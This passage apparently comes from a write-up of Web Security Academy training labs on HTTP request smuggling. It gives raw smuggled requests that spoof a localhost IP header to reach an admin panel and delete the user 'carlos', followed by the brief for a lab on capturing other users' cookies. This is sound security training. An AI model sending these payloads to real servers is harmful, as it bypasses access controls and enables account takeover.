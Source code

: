 ![img](https://github.com/datnlq/Source/blob/main/HTTP%20request%20smuggling/image/SSTI_requestwrite_checkip.png?raw=true)
=> 127.0.0.1


```

POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 143
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-vdAOdZ-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Connection: close

search=aaa
```

![img](https://github.com/datnlq/Source/blob/main/HTTP%20request%20smuggling/image/SSTI_requestwrite_panel.png?raw=true)


```
POST / HTTP/1.1
Host: ac331f411e01f20480d95bff003c0025.web-security-academy.net
Content-Length: 166
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
X-vdAOdZ-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Connection: close

x=1
````
![img](https://github.com/datnlq/Source/blob/main/HTTP%20request%20smuggling/image/SSTI_requestwrite_del.png?raw=true)


![img](https://github.com/datnlq/Source/blob/main/HTTP%20request%20smuggling/image/SSTI_requestwrite_solve.png?raw=true)




### Lab: Exploiting HTTP request smuggling to capture other users' requests
```
This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server that causes the next user's request to be stored in the application. Then retrieve the next user's request and use the victim user's cookies to access their account.

```
